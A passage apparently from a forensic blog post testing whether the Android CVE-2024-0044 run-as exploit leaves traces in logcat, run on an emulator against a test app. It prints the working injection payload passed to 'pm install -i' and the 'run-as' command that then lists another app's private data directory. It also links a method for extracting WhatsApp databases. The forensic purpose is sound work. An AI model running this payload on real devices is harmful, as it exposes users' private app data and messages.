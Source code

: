 ```bash 
$ grep -n vulnerable0 logcat.txt 
... 
69065:01-09 15:06:35.622 10298 10298 I auditd : type=1400 audit(0.0:41): avc: denied { getattr } for comm="ls" path="/data/data/com.example.vulnerable0" dev="dm-5" ino=123423 scontext=u:r:shell:s0 tcontext=u:object_r:app_data_file:s0:c147,c256,c512,c768 tclass=dir permissive=0 
69066:01-09 15:06:35.622 10298 10298 W ls : type=1400 audit(0.0:41): avc: denied { getattr } for path="/data/data/com.example.vulnerable0" dev="dm-5" ino=123423 scontext=u:r:shell:s0 tcontext=u:object_r:app_data_file:s0:c147,c256,c512,c768 tclass=dir permissive=0 
... 
``` 
 
This is just a snippet of the command output where we can see our initial test of listing the _data_ directory of vulnerable0, and it was denied. Besides that, there are no more references that have to do with the exploit. 

Now let's search for `com.google.android.gms:` with the command `grep -n com.google.android.gms logcat.txt`. The output of this command is too long to review manually; it doesn't even fit in the terminal. 

Let's try searching for the specific piece of the `"1 /data/user/0"` exploit with the `grep -n "1 /data/user/0" logcat.txt` command, but the result is nothing, zero, empty. 

So far, we haven't found any trace of the exploit in the extractions we've performed. But let's try another test.

There are two public exploits for this vulnerability: the Meta PoC and the exploit mentioned above that automates the vulnerability to extract WhatsApp conversations. [Here's the recap](https://tinyhack.com/2024/06/07/extracting-whatsapp-database-or-any-app-data-from-android-12-13-using-cve-2024-0044/?s=03). In this exploit, the app that is installed is F-Droid.apk (instead of dummyApp). So: 

1. Download the F-Droid APK from the F-Droid website and upload it to the emulator with `adb push F-Droid.apk /data/local/tmp/`. 
2. Run the exploit again using the F-Droid APK; extract it and see what happens. 

   ```bash 
   emulator64_x86_64_arm64:/ $ echo $PAYLOAD 
   @null com.example.vulnerable0 10147 1 /data/user/0 default:targetSdkVersion=28 none 0 0 1 @null 

   emulator64_x86_64_arm64:/ $ pm install -i "$PAYLOAD" /data/local/tmp/F-Droid.apk 
   Success 

   emulator64_x86_64_arm64:/ $ run-as com.example.vulnerable0 ls -al /data/user/0/com.example.vulnerable0 
   total 48 
   drwx------ 5 u0_a147 u0_a147 4096 2025-01-10 09:51 . 
   drwxrwx--x 184 system system 12288 2025-01-10 10:24 .. 
   drwxrws--x 2 u0_a147 u0_a147_cache 4096 2025-01-10 09:51 cache 
   drwxrws--x 2 u0_a147 u0_a147_cache 4096 2025-01-10 09:51 code_cache 
   drwxrwx--x 2 u0_a147 u0_a147 4096 2025-01-10 09:51 files 
   emulator64_x86_64_arm64:/ $ 
   ``` 
 
   What we see here is the execution of the exploit to impersonate _vulnerable0_ using the two possible directories: the _magic_ `/data/user/0` and the original application `/data/data/com.example.vulnerable0`. In both cases we tested that the exploit worked by running `ls -al` on the _data_ directory of _vulnerable0_. 
